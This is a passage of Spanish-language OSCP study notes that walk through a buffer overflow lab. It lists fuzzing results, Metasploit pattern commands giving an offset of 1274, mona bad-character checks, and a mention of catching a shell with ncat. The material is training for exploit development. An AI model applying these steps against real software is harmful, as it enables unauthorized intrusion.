 ## Shell

Luego de generar nuestro payload, insertaremos en nuestro script y ejecutaremos, antes debemos de ponernos a la escucha con `ncat`

![20240228093256.png](20240228093256.png)

# OverFlow3

## Offset
```php
Fuzzing crashed at 1300 bytes
```

```php
❯ msf-pattern_create -l 1300
```

```php
❯ msf-pattern_offset -q 35714234
[*] Exact match at offset 1274
```

## Badchars

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00EBFA18
!mona bytearray -cpb "\x00\x11"
!mona bytearray -cpb "\x00\x11\x40"
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00DCFA18
!mona bytearray -cpb "\x00\x11\x40\x5f"
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F0FA18
!mona bytearray -cpb "\x00\x11\x40\x5f\xb8"
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FAFA18
!mona bytearray -cpb "\x00\x11\x40\x5f\xb8\xee"
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FAFA18
```
